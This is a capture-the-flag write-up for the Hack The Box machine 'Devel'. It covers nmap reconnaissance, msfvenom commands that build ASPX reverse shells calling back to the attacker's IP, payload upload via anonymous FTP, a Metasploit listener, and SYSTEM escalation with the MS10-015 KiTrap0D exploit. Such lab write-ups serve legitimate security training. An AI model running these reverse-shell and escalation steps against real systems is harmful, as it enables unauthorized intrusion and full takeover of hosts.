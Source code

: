 

#############################################
					Cosmin Tibuleac | 28.10.2021
#############################################

https://app.hackthebox.com/machines/3


# Nmap 7.91 scan initiated Thu Oct 28 10:24:28 2021 as: nmap -A -T4 -p- -o nmap.txt 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.049s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   48.63 ms 10.10.14.1
2   48.74 ms 10.10.10.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 28 10:26:18 2021 -- 1 IP address (1 host up) scanned in 110.74 seconds
	
Since we are allowed to upload files anonymously on the FTP server, maybe we could upload a .ASP reverse shell and then access it via HTTP.
	
We can try to generate the shell with msfvenom like this: 
	
		**msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.15 LPORT=6666 -f aspx > shell2.aspx**
	
This is one option, but we can also use the meterpreter version, which will allow us to use Metasploit's meterpreter:
	
**msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=6666 -f aspx >reverse.aspx**
	
Now, we can login into the FTP server with the following credentials:
	
user: anonymous
	
password: 

(leave the password blank)

Once logged in, we can use the command "put" to upload our meterpreter reverse shell onto the server:
	

![[Pasted image 20211030020910.png]]
	
Now, it's time to start a listener using msfconsole (because we want a meterpreter):
	
**msf6 > use exploit/multi/handler**

use "show options" and then set our listening interface and port:
	
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.15
msf6 exploit(multi/handler) > set LPORT 6666
LPORT => 6666
msf6 exploit(multi/handler) > 

We also need to set the following payload:
	
msf6 exploit(multi/handler) > 
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
	
Now, after we run it, we just need to go to our victim website and execute the .aspx script we put: 10.10.10.5/reverse.aspx
	
And we're in! 
	
![[Pasted image 20211030021756.png]]
	
	
It looks like we are in, but not as AUTHORITY SYSTEM, so we will need to find a way to escalate our privileges:
	
	**meterpreter > getuid
Server username: IIS APPPOOL\Web**
	
The way we can approach this, is by getting the system info and then use a local tool on our attacking machine, called "Windows-Exploit-Suggester":
	
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
	
Credits to AonCyberLabs for this awesome tool!
	
Let's begin;
First, we will need to use "systeminfo" on the victim machine, and we will get this: 
	
	*Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          1/11/2021, 10:05:46 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.481 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.555 MB
Virtual Memory: In Use:    586 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::3c*
	

We need to copy this, and create a .txt file on our machine, so we can feed it to Windows-Exploit-Suggster.
	
After creating the .txt file, we first need to run --update like this: 
	
**./windows-exploit-suggester.py --update**
	
Afterwards, it's time to run the script:
	
**./windows-exploit-suggester.py --database 2021-11-01-mssb.xls --systeminfo systeminfo.txt**
	
	
![[Pasted image 20211101042113.png]]
	
These vulnerabilities, are trial and error. We need to try a few and see what sticks, if any.
	
I have found that the one exploit that works is the following:
	
**MS10-015 - exploit/windows/local/ms10_015_kitrap0d  2010-01-19       great  Yes    Windows SYSTEM Escalation via KiTrap0D**
	
We need to set it the LHOST and LPORT and assign it our meterpreter session.
	
Then, we can just run it.

	
Victory! 
	
**meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM**
	
